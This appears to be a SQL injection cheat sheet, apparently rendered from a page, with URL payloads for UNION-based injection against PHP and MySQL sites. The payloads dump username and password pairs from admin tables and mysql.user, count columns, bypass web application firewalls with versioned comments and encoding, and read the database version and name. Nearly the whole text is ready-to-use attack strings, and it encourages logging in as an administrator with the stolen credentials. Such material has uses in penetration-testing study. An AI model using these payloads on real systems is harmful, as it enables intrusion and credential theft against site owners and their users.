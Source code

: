 ```
http://$ip/news.php?id=5 union all select 1,concat(username,char(58),password),3 from admin/*
```

Now you get displayed username:password on screen, i.e admin:admin or admin:somehash when you have this, you can login like admin or some superuser :D if can't guess the right table name, you can always try mysql.user (default) it has user and password columns, so example would be

```
http://$ip/news.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*
```

## Test number of columns - Watch for Error

```
http://$ip/artists.php?artist=1 order by 1,2,3,4
http://$ip/artists.php?artist=1 order by 1,2,3,4 -- LIMIT 1
http://$ip/artists.php?artist=1 -1 union all select 1/*
http://$ip/artists.php?artist=1 -1 union all select 2/*
http://$ip/artists.php?artist=1 -1 union all select 3/*
http://$ip/artists.php?artist=1 -1 union all select 4/*
```

## Test Injectable columns - Watch for visual Indicators (WAF filters)

```
http://$ip/artists.php?artist=1 -1 union all select 1,2,3,4
http://$ip/listproducts.php?cat=1 -1 /*!UNiOn*/ /*!SeLEct*/ 1,database(),3,4,5,6,7,8,9,10,11
 http://$ip/listproducts.php?cat=1%20%20-1%20%20%20/**//*!12345UNION%20SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
 http://$ip/listproducts.php?cat=1%20%20-1%20%20%20%20/**//*!50000UNION%20SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
http://$ip/listproducts.php?cat=1%20%20-1%20%20/**/UNION/**//*!50000SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
http://$ip/listproducts.php?cat=1%20%20-1%20%20%20/*!50000UniON%20SeLeCt*/%201,database%28%29,3,4,5,6,7,8,9,10,11
--*See the 'Web filter Bypass Keywords' below for more*--
```

## Enumerate Information

```
http://$ip/artists.php?artist=1 union all select 1,@@version,3,4
http://$ip/artists.php?artist=1 union all select 1,hex(unhex(@@version)),3,4
http://$ip/artists.php?artist=1 union all select 1,convert(@@version using latin1),3,4
```

### Enumerate Database

```
http://$ip/artists.php?artist=1 union all select 1,database(),3,4
```
